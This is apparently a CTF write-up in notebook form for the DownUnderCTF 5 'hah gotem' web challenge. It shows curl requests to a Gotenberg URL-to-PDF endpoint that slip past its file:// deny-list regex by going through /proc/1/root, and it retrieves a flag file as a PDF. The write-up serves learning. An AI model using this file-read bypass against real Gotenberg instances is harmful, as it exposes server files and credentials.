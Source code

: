 ```yaml
---
layout: post
title: "web - hah gotem"
date: 2024-07-06 00:00:00 -0700
categories: ctfs
description: Bypass the url parameter filter by going to a path that starts with "p".
parent: Down Under CTF 5
grand_parent: CTF Events
event: "down-under-ctf-5"
tags:
- "web"
- "lfi"
- "regex"
---
```

# hahgotem

## Engagement Notes

# Enumeration

### Set variables for further engagement


```python
import requests
from pprint import pprint

source =! ip address | grep tun | grep 10 | tr "/" " " | awk '{print $2}'
public_source = requests.get('https://ifconfig.co/ip').text
target = 'https://web-hah-got-em-20ac16c4b909.2024.ductf.dev'

print(f"source: {source}")
print(f"target: {target}")
```

    source: []
    target: https://web-hah-got-em-20ac16c4b909.2024.ductf.dev



```python
!curl $target/health
```

    {"status":"up","details":{"chromium":{"status":"up","timestamp":"2024-07-06T22:36:44.308397721Z"},"libreoffice":{"status":"up","timestamp":"2024-07-06T22:36:44.276208829Z"}}}


```python
!curl $target/forms/chromium/convert/url -X POST --form url=https://google.com
```

    Warning: Binary output can mess up your terminal. Use "--output -" to tell 
    Warning: curl to output it to your terminal anyway, or consider "--output 
    Warning: <FILE>" to save to a file.


Any reference or path resolution to file:///etc/x results in this on the local server:
> gotenberg-1  | {"level":"warn","ts":1720305351.539332,"logger":"api.formschromiumconverturl","msg":"'file:///etc/passwd' matches the expression from the denied list","trace":"3d022255-ebbe-48f3-8bd0-820276c6c4b3"}

Looking at the diff between the used version and the following version of Gotenberg (https://github.com/gotenberg/gotenberg/compare/v8.0.3...v8.1.0) We can see there is some updates and release notes about read access to the container.


```python
!curl $target/forms/chromium/convert/url -X POST --form url=file:///proc/1/root/etc/flag.txt -o flag.pdf
```

      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 17253  100 17071  100   182   6074     64  0:00:02  0:00:02 --:--:--  6139


The instance is explicitly a container, so we can assume that pid 1 is the primary service and use proc/pid/root to try to get around the regex matches. 
I believe this is due to regex doing a negative match on [^tmp] (words starting with t, m, or p)

# Post Notes
